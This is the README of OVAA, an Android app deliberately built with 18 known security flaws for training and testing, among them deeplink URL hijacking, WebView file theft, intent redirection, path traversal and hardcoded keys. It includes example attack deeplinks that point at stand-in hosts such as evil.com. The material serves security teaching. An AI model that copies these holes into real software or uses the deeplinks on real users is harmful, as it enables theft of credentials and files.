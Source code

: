 ## Description
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.
2. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
3. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
4. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
5. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
6. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
7. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
8. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
9. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
10. Memory corruption via the `MemoryCorruptionParcelable` object.
11. Memory corruption via the `MemoryCorruptionSerializable` object.
12. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
13. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
14. Use of the hardcoded AES key in `WeakCrypto`.
15. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
16. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
17. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
18. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2022, Oversecured Inc*

https://oversecured.com/ 
